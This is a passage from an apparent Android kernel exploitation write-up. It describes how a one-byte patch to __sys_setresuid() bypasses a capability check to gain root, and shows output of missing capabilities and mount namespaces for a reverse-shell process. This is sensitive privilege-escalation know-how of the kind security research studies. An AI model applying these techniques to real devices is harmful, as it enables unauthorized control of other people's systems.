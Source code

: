 #### 3.6.3. Other Mitigations

To escalate privileges to the root user, I first referred to the [USMA attack](https://i.blackhat.com/Asia-22/Thursday-Materials/AS-22-YongLiu-USMA-Share-Kernel-Code.pdf) and patched one byte in `__sys_setresuid()` to bypass the `ns_capable_setid()` check:

``` c
long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
{
    // [...]
    if ((ruid_new || euid_new || suid_new) &&
        !ns_capable_setid(old->user_ns, CAP_SETUID))
        return -EPERM;
    // [...]
}
```

However, the root user **does not gain full control over resources** because it has **no capabilities**. For example, even the `/tmp` directory owned by the `shell` user cannot be accessed:

```
:/ # cat /proc/$$/status | grep Cap
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000000000000000
CapAmb: 0000000000000000

:/ # ls -al /tmp
ls: /tmp: Permission denied
```

Moreover, due to the **mount namespace**, a shell spawned by an untrusted application can only access a limited view of the filesystem. This can be verified by comparing the namespaces of the init process (PID 1) and the reverse shell process (PID 2525):

``` bash
aaa@aaa:~$ adb shell su 0 ls -al /proc/2525/ns/
total 0
dr-x--x--x 2 root u0_a116 0 2025-09-08 06:19 .
dr-xr-xr-x 9 root u0_a116 0 2025-09-08 04:45 ..
lrwxrwxrwx 1 root u0_a116 0 2025-09-08 06:19 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root u0_a116 0 2025-09-08 06:19 mnt -> mnt:[4026533945] # <------------------
lrwxrwxrwx 1 root u0_a116 0 2025-09-08 06:19 net -> net:[4026531840]
lrwxrwxrwx 1 root u0_a116 0 2025-09-08 06:19 uts -> uts:[4026531838]

aaa@aaa:~$ adb shell su 0 ls -al /proc/1/ns/
total 0
dr-x--x--x 2 root root 0 2025-09-08 04:44 .
dr-xr-xr-x 9 root root 0 2025-09-08 04:44 ..
lrwxrwxrwx 1 root root 0 2025-09-08 06:20 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root root 0 2025-09-08 04:44 mnt -> mnt:[4026533086] # <------------------
lrwxrwxrwx 1 root root 0 2025-09-08 06:20 net -> net:[4026531840]
lrwxrwxrwx 1 root root 0 2025-09-08 06:20 uts -> uts:[4026531838]
```
